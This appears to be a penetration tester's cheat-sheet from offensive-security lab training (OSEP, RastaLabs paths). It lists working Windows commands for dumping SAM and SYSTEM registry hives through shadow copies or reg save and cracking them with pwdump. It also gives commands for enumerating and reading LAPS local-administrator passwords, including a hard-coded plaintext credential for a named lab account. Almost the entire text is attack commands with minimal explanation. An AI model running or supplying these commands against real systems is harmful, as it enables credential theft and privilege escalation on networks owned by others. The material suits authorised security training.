



# Method 1: shadow copy (create a snapshot of the C drive)
wmic shadowcopy call create Volume='C:\'
## verify it and obtain source path
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
# Medthod 2 : registry
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
## note they are still encrypted (creddump or mimikatz
## dump creds creddump7
python pwdump.py ~/OSEP/SMBFolder/system ~/OSEP/SMBFolder/sam

# option 1: powerview
get-netcomputer -Filter "(ms-mcs-admpwdexpirationtime=*)" | select dnshostname
# option 2
Import-Module .\LAPSToolkit.ps1
## find groups that can fully enumerate laps data
Find-LAPSDelegatedGroups
## look for group members
Get-NetGroupMember -GroupName "LAPS Password Readers"
## display all computers set with laps and display hostname,clear text pass of local administrator (if the user account is part of the group), expiration time
Get-LAPSComputers
### alternativce
Get-ADObject -Name ws04 -DomainController dc01 -Properties ms-mcs-admpwd
## for other user
$SecPassword = ConvertTo-SecureString 'J5KCwKruINyCJBKd1dZU' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('rastalabs.local\ngodfrey_adm', $SecPassword)
Get-ADObject -Name ws02 -DomainController dc01 -Properties ms-mcs-admpwd -Credential $Cred

